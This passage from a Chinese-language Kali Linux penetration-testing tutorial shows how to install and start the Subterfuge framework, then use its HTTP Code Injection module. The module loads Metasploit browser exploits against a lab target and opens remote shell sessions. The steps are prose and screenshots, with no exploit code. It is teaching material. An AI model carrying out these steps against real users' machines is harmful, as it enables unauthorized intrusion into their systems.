
图7.21 安装Subterfuge界面
（4）在该界面选择Full Install With Depencencies选项，并单击Install按钮。安装完成后，将显示如图7.22所示的界面。

图7.22 安装完成
（5）从该界面可以看到弹出一个小对话框，显示Subterfuge安装完成。此时，单击Finish按钮就可以完成安装。
【实例7-5】使用Subterfuge工具。具体操作步骤如下所示。
（1）启动Suberfuge工具。执行命令如下所示：
root@kali:~# subterfuge
执行以上命令后，将显示如下所示的信息：
Subterfuge courtesy of r00t0v3rr1d3 & 0sm0s1z
Validating models…
0 errors found
Django version 1.3.1, using settings 'subterfuge.settings'
Development server is running at http://127.0.0.1:80/
Quit the server with CONTROL-C.
（2）打开浏览器，并输入127.0.0.1:80访问Subterfuge的主界面，如图7.23所示。

图7.23 Subterfuge主界面
（3）从该界面可以看到显示了一个Modules和Settings菜单，并且还有一个Start按钮。
在Subterfuge界面的Modules菜单下，可以选择所有提供的不同模块进行攻击。使用Settings菜单，可以修改Subterfuge一些功能，并且启动攻击。下面使用HTTP Code Injection模块，实现浏览器攻击。
【实例7-6】演示使用Subterfuge的HTTP Code Injection模块攻击浏览器。具体操作步骤如下所示。
（1）在图7.23中，单击Modules菜单，将显示如图7.24所示的界面。

图7.24 所有攻击模块
（2）在该界面选择HTTP Code Injection模块，将显示如图7.25所示的界面。

图7.25 设置HTTP Code Injection模块
（3）在该界面设置HTTP Code Injection模块的插件信息。这里使用默认设置，并单击Apply按钮，将显示如图7.26所示的界面。

图7.26 加载Metasploit框架
（4）该界面是Subterfuge自动打开的一个Shell窗口，将开始加载Metasploit渗透攻击模块，如图7.27所示。

图7.27 加载渗透攻击模块
（5）从该界面可以看到加载了好多个渗透攻击模块，加载完后，将显示如图7.28所示的界面。

图7.28 模块加载完成
（6）从该界面可以看到有一条Done,found 18 exploit modules信息，表示Subterfuge找到了18个渗透攻击模块。当某个用户连接Kali时，将会使用其中的一个模块。当目标主机访问Kali上的Subterfuge时，将会自动启动大量的渗透攻击到目标主机的浏览器上。此时，Kali系统上将显示如图7.29所示的界面。

图7.29 访问攻击主机
（7）以上显示的信息表示目标主机192.168.6.113访问了攻击主机的Subterfuge。此时可以查看打开的会话，如图7.30所示。

图7.30 打开的会话
（8）从该界面可以看到，成功的打开了三个会话。现在可以启动任何一个会话，并打开目标系统的Shell，如图7.31所示。

图7.31 Shell窗口
（9）从该界面可以看到成功连接到了一个远程会话。